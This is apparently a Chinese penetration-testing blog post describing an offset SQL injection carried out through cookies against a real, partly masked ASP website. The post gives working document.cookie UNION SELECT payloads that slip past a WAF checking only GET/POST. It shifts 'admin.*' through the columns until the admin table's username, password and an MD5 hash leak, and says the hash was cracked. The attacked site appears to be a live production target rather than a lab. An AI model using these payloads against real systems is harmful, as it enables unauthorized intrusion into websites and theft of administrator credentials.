 ```yaml
---
layout: post
title:  "简单的偏移注入"
categories: 渗透测试
tags: 渗透测试 渗透
author: young
---
```




* content
{:toc}








## 目标网站

![图片1.png](https://i.loli.net/2020/02/02/orzMnXVvwCTfOWi.png)

偏移注入也是cookie注入吧，一种骚操作  
所以需要在字段比较多的进行测试，所以我直接在产品中心这个地方点进去  

## 开始

这个小网站我找了好久~~~

![图片2.png](https://i.loli.net/2020/02/02/RjlheXWdI9crEfx.png)

不知道怎么讲嘞，似乎好像可以过老版本的狗，一些老版本的狗只检测get和post传参  
目标网站 :http://www.******.com/ProductShow.asp?ID=12    
然后再用document.cookie="ID="+escape("12") 进行cookie注入    
不知道该咋说~~~~~  
第一步： 先把?ID=12  
网站后面的  ?ID=12 给去掉  

![图片3.png](https://i.loli.net/2020/02/02/xUk1JCI7GFTyswN.png)

然后再按f12这边按下回车

![图片4.png](https://i.loli.net/2020/02/02/QOzvpxGNy4l2cEg.png)

然后刷新下页面，发现没有报错，这里可以使用偏移注入

![图片5.png](https://i.loli.net/2020/02/02/MlnmE9V28qbaQcj.png)

一直order by ，发现有24报错了，应该就有23个字段，再使用联合查询 union select  
跟一般注入没啥区别，只不过传参进去的方式不同  
Asp的站一般跟着access了，关于access库的问题就不说了  
![图片6.png](https://i.loli.net/2020/02/02/B5cDUNZum6wyxkz.png)  
于是乎就出现了回显点  
这里会用到 * 这个符号，具体怎么样看下去就知道了  
哎呀，反正语文不好，不知道咋说  
* 在数据库中代表所有  然后我们发现  

```bash
 document.cookie="ID="+escape("12 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23 from admin")  
 ```

我们在f12中输入这段，然后发现没有报错，说明有admin这个表  
然后我们在用 admin.* 就代表着admin表里面所有的数据  
但是偏移注入得看字段多不多，字段少的话就无法使用 ，可以说是占位符吧  

```bash
document.cookie="ID="+escape("12 and 1=2 union select 1,2,3,4,5,6,7,8,9,admin.* from admin")
```

![图片7.png](https://i.loli.net/2020/02/02/nPla9OGIy62UV8k.png)  

然后发现到当admin.\*到11这边报错了，当admin.\*到10这边页面正常

![图片8.png](https://i.loli.net/2020/02/02/y1ZY5neq4h3oHQ6.png)

那就可以“漂移”了，顾名思义，偏移注入就是往左偏移  
但是字段不能变

![图片9.png](https://i.loli.net/2020/02/02/SloJvTpLWCxn8K2.png)

```bash
document.cookie="ID="+escape("12 and 1=2 union select 1,2,3,4,5,6,7,8,9,admin.* from admin")
document.cookie="ID="+escape("12and 1=2 union select 1,2,3,4,5,6,7,,8,admin.*,9 from admin")
document.cookie="ID="+escape("12 and 1=2 union select 1,2,3,4,5,6,7,admin.*,8,9 from admin")
```

莫得错，就是一直向左“漂移”，但是字段数不
直到偏移出数据来  
![图片10.png](https://i.loli.net/2020/02/02/KjFYmQSMOiGZzy6.png)

偏移到  当 admin.* 在5的那个位置时候出现了一串东西，但是不晓得  
估计是user吧，继续偏移到4的时候

![图片11.png](https://i.loli.net/2020/02/02/eRfy7xOQDodpX3G.png)

出现了这个，这个估计是密码，然后继续偏移，发现还有一串md5加密的，于是我解密时候，发现是一串数字

![图片12.png](https://i.loli.net/2020/02/02/joGevwSrmBH3gOR.png)

呃呃呃，然后就没了  
一个简单的偏移注入，自小语文不好，所以不慌  
然后这个网站在get那边注入有waf，所以....    
低水平，看看就好  
（我发现还可以试试存储型xss，但是时间不够）  

